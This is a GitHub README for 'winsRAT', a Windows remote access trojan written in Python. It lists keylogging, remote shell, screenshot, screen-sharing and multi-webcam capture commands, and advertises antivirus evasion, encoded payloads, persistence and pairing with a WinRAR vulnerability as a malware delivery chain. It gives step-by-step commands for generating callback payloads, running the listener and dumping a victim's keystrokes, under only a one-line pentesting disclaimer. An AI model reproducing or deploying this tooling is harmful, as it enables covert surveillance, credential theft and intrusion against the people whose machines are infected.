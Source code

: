 <h1 align="center"> 
    <img src="https://user-images.githubusercontent.com/29171692/89164677-00e3e480-d595-11ea-9cf1-f27ab1faf432.png" alt="winsRAT" /> <br>    
    winsRAT Under continuous development (Beta winsRAT)
</h1>
<p align="center">
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/ThemeHackers/winsRAT/releases" target="_blank"><img src="https://img.shields.io/badge/version-v2.1-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/license/gpl-3-0" target="_blank"><img src="https://img.shields.io/badge/license-GPL-green.svg" alt="lisence" /></a>
</p>
<h4 align="center">Windows RAT</h4>

## Getting Started
### Description
winsRAT is written entirely in Python, developed from SillyRAT. winsRAT is a RAT specifically for Windows operating systems and has additional features. Server.py can generate two types of files: .exe files and source files.

### Features
This code shows the features of the tool.
```bash
def help_c_current(self):
        headers = (pull.BOLD + 'Command' + pull.END, pull.BOLD + 'Description' + pull.END)
        lister  = [
            ('help', 'Shows manual for commands'),
            ('sessions', 'Show all connected clients to the server'),
            ('connect', 'Connect to a Specific Client'),
            ('disconnect', 'Disconnect from Current Client'),
            ('clear', 'Clear Screen'),
            ('shell'  , 'Launch a New Terminal/Shell.'),
            ('keylogger', 'KeyLogger Module'),
            ('sysinfo', 'Dump System, Processor, CPU and Network Information'),
            ('screenshot', 'Take Screenshot on Target Machine and Save on Local'),
            ('screenshare' , 'Take Screenshot on Target Machine and Share in Real Time'),
            ('webcam', 'Capture Webcam Image and Save on Local'),
            ('antivm' , 'Check if the target is a VM to change the behavior of winsRAT.'),
            ('exit', 'Exit from winsRAT!')
            
            
        ]
```
- And others, stay tuned.

### High-level features

- Avoid AV
- The payload is base64 encoded.
- The webcam module is developed to capture images of multiple devices on the connected target machine. For example, if the target machine has 5 webcams, this module will capture images of all 5 devices immediately when using the webcam command on the server.
- Reconnecting to increase retention
- RAT behavior changes when encountering a VM target (under development)
- You can make the compiled exe file work with the CVE-2025-8088 vulnerability. In terms of winrar vulnerability, when you use it with this vulnerability, it elevates the tool to a full Malware Delivery Chain.
- And others, stay tuned.

### Installation
The tool is tested on **Windows** with **Python 3.13.4**. 
Follow the steps for installation:
```
git clone https://github.com/ThemeHackers/winsRAT
cd winsRAT/
pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>

Source file

```bash
python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -s -per
python3 server.py generate -a 192.168.1.100 -p 9001 -o "C:\Users\1com3456\Downloads\winsrat" -s -per
```
Compiled file

```bash
python3 server.py generate -a server_ip -p server_port -o "C:\Users\{...}\Downloads\{name_output}" -per
python3 server.py generate -a 192.168.1.100 -p 9001 -o  "C:\Users\1com3456\Downloads\winsrat" -per
```

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Windows. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```bash
python3 server.py bind -a 0.0.0.0 -p 9001
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Credit
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

### Support the improvement 
Instagram: <a href="https://www.instagram.com/_tthemzdl5678/">_tthemzdl5678</a><br>
Github: <a href="https://github.com/ThemeHackers/">ThemeHackers</a><br>
### Disclaimer
This tool is only for use by penetration testers or security testers. The author is not responsible for any illegal actions in your country.
